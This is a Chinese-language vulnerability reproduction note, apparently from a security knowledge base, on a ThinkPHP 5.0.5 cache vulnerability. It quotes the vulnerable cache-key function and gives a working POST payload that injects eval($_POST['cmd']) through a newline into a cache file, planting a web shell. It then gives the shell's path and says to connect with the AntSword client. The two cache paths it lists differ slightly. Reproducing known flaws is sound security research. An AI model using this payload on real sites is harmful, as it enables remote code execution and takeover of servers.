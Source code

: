```yaml
---
title: "Thinkphp 5.0.5 缓存漏洞"
id: zhfly3160
---
```


# Thinkphp 5.0.5 缓存漏洞

## 一、漏洞简介

## 二、漏洞影响

Thinkphp 5.0.5

## 三、复现过程

### 漏洞分析

*   漏洞代码与3.2.3差不多，不一样的在缓存目录

    ```
    protected function getCacheKey($name)
        {
            $name = md5($name);
            if ($this->options['cache_subdir']) {
                // 使用子目录
                $name = substr($name, 0, 2) . DS . substr($name, 2);
            }
            if ($this->options['prefix']) {
                $name = $this->options['prefix'] . DS . $name;
            }
            $filename = $this->options['path'] . $name . '.php';
            $dir      = dirname($filename);
            if (!is_dir($dir)) {
                mkdir($dir, 0755, true);
            }
            return $filename;
        } 
    ```

*   在index控制器写如下代码：

![image](../img/f02690dc5f2f315e8de21db35bb35f19.png)

*   之后访问 `http://www.0-sec.org/public/index.php/Home/index`POST数据：`con=%0aeval($_POST['cmd']);%0d//`
*   最终在 `runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`文件生成shell：

![image](../img/585ccdc98e3d4a77f6d1129518926c69.png)

之后访问蚁剑 `http://www.0-sec.org/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`

![image](../img/64f52c726b205ed9fae1d14dc7be7833.png)

### 小结

### Thinkphp5.0.5

1.  漏洞文件位置(一般审计得出)

    `http://www.0-sec.org/public/index.php/Home/Index/index`

    POST数据 :`con=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件位置b0文件夹是md5(cache-name)前2位。

    `http://www.0-sec.org/runtime/cache/b0/b068931cc450442b63f5b3d276ea4297.php`

3.  蚁剑连接

## 参考链接

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/)